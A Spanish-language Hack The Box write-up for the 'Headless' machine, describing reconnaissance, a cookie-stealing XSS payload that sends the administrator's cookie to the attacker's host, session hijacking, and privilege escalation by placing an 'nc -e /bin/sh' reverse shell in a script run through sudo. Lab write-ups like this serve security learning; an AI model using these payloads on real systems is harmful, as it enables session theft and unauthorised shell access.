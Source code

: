 ```yaml
---
title: Headless Writeup
description: 
date: 2024-08-27 00:00:00+0000
image: featured1.png
categories:
  - HackTheBox
  - easy HTB
tags: ["easy HTB"]
weight: 1       # You can add weight to some posts to override the default sorting (date descending)
---
```


### nmap

realizamos un escaneo con Nmap y encontramos estos puertos abiertos 

<img src="featured2.png" alt="Featured Image">


--- 

#### web

accedemos al sitio web 

> no encontramos nada, vamos hacer fuzzing a la web

<img src="featured3.png" alt="Featured Image">

---

#### fuzzing

realizamos un escaneo con gobuster, usamos el comando 

```
gobuster dir -u http://10.10.11.8:5000 -w /usr/share/wordlists/dirb/common.txt

```
encontramos el dominio /support

<img src="featured4.png" alt="Featured Image">

---

#### burpsuite


rellenamos el campo con cualquier informacion

>vamos interceptar las peticiones con **Burpsuite** 

<img src="featured5.png" alt="Featured Image">

---


esta es la peticion con **Burpsuite** 

<img src="featured6.png" alt="Featured Image">


---


en otra terminal los colocamos en escucha 

```
python3 -m http.server 80

```

<img src="featured7.png" alt="Featured Image">


--- 

#### script


vamos a robarnos las cookies de Administrador 

utilizando este script

```
<script>var i=new Image(); i.src="http://<tu ip> :8001/?cookie="+btoa(document.cookie);</script>

```

<img src="featured8.png" alt="Featured Image">


---


lo colocamos de esta manera el script que previamente creamos 

<img src="featured9.png" alt="Featured Image">


---


#### base64

vamos al servidor que nos colocamos en escucha y conseguimos la cookie de sesion 
pero la cookie esta en base64 vamos a descodearla 

<img src="featured10.png" alt="Featured Image">


---

#### cookie 


usamos este comando 

```
echo "aXNfYWRtaW49SW1Ga2JXbHVJZy5kbXpEa1pORW02Q0swb3lMMWZiTS1TblhwSDA=" | base64 -d 

```
la conseguimos 

<img src="featured11.png" alt="Featured Image">


---



vamos a la pagina y inspeccionamos nos dirigimos a **storage** luego a **cookies** y la colocamos,

> recuerden refrescar la pagina 


<img src="featured12.png" alt="Featured Image">


---

al momento de recargar nos dara acceso al dashboard

<img src="featured14.png" alt="Featured Image">


---

#### payload

creamos un payload 

<img src="featured13.png" alt="Featured Image">


---


interceptamos la peticion a la web 

> colocaremos el payload 

> antes de mandar la peticion por Burpsuite recordemos colocarnos en escucha 


<img src="featured16.png" alt="Featured Image">



<img src="featured15.png" alt="Featured Image">

---

#### Burpsuite

mandamos la peticion con Burpsuite y conseguimos una shell


<img src="featured17.png" alt="Featured Image">

---



flag de user conseguida 

<img src="featured18.png" alt="Featured Image">
---


vamos utilizar el comando sudo -l para verificar el uso de permisos en el usuario en el cual nos encontramos 
```
sudo -l 

```
nos fijamos que podemos usar 

> /usr/bin/syscheck

<img src="featured19.png" alt="Featured Image">


---

#### abuso de archivo

hacemos cat a la ruta 

Vemos que el archivo initdb.sh se está lanzando, por lo que lo que podemos hacer es poner una carga útil en ese archivo

<img src="featured20.png" alt="Featured Image">

---

```
echo "nc -e /bin/sh 10.10.14.132 1212" > initdb.sh
chmod +x initdb.sh
sudo /usr/bin/syscheck

```

<img src="featured21.png" alt="Featured Image">

---

#### shell 

en otra terminal nos colocamos en escucha y listo conseguimos la shell 


<img src="featured22.png" alt="Featured Image">

